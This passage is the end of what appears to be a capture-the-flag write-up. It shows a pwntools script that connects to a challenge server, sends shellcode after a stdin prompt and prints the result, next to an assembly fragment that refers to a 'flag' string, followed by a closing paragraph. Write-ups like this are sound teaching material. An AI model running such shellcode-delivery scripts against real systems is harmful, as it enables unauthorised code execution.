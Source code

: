```python
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too verbose!). If something is still obscure to you, you can ask a question on the discord server or comment below and we will try to answer in a timely manner.

